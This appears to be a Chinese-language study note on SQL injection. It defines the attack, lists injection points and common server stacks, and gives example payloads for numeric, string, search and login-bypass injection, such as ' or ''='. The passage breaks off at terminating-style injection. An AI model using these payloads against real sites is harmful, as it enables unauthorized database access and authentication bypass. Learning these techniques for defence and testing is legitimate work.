 # SQL注入进阶

大部分内容查找自网络，自己只不过就是整理了一下，当作笔记用，有很多不足，请表哥们指点。

- [sql经验笔记](./sql经验笔记.html)
- [sql语句](./sql语句.html)
- [sql符号](./sql符号.html)
- [24字母](./24字母.html)
- [ascii](./ascii.html)

## SQL注入介绍

所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将(恶意)的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入(恶意)SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。造成SQL注入漏洞原因有两个：一个是没有对输入的数据进行过滤(过滤输入)，还有一个是没有对发送到数据库的数据进行转义(转义输出)。

## 常见的注入点

```linux
GET 请求参数：该请求在 URL 中发送参数。
POST 请求参数：数据被包含在请求体中。
HTTP Cookie参数：数据Cookie中可能会触发 SQL 注入漏洞
其他注入型数据：HTTP 请求的头部字段也可能会触发 SQL 注入漏洞
如：HTTP User-Agent头和HTTP Referer头
```

## 常见的脚本类型

```linux
1、LAMP: Linux+apache+PHP+MySQL
2、LNMP:Linux+Nginx+PHP+MySQL
3、Windows+IIS+.net+MSSql Server
4、Linux+Tomcat+JSP+MySQL
5、Linux+Tomcat+JSP+Oracle
6、asp+access
7、asp.net+MSSql
8、asp + mssql
```

## sql漏洞利用技术

```linux
安类型分：
1、数字型注入
    测试方法为：http://host/test.php?id=100 and 1=1
    接收参数为：100 and 1=1
    sql语句为： SELECT * FROM news WHERE id=100 and 1=1
2、字符型注入
    测试方法为：http://host/test.php?name=man' and '1'='1
    接收参数为：man' and '1'='1
    sql语句为：SELECT * FROM news WHERE name='man' and '1'='1'
3、搜索型注入点
    测试方法为：http://host//test.php?keyword=python%' and 1=1 and '%'='
    接收参数为：python%' and 1=1 and '%'='
    sql语句为：SELECT * FROM news WHERE keyword like '%python%' and 1=1 and '%'='%'
4、内联式SQL注入
    测试方法为：http://host//login.php  post参数为：name=' or ''='&pass=fuzz || name=fuzz&pass=' or ''='
    接收参数为：name='' or ''='' pass ='fuzz' || name='fuzz' pass ='' or ''=''
    sql语句为：AND的优先级是大于OR的，于是会先计算AND，然后之后才会计算OR
        SELECT * FROM admin WHER name='' or ''='' AND pass ='fuzz'  # 返回失败
        SELECT * FROM admin WHER name='fuzz' AND pass ='' or ''=''  # 返回成功
5、终止式SQL注入
    终止式SQL语句注入是指攻击者在注入SQL代码时，通过注释剩下的查询来成功结束该语句
```